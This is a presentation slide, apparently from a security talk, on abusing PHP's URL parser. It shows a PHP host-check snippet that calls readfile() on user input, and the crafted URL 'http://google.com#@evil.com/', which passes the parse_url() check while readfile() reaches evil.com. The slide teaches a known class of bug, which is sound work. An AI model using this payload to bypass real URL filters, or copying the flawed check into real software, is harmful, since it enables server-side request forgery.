

Abusing PHP URL Parser

  1 <?php
  2 $p = parse_url($_GET['url']);
  3 if ($p['port'] === 80 && $p['host'] === "google.com") {
  4         readfile($_GET['url']);
  5 }

http://google.com#@evil.com/

PHP parse_url() - google.com
PHP readfile() - evil.com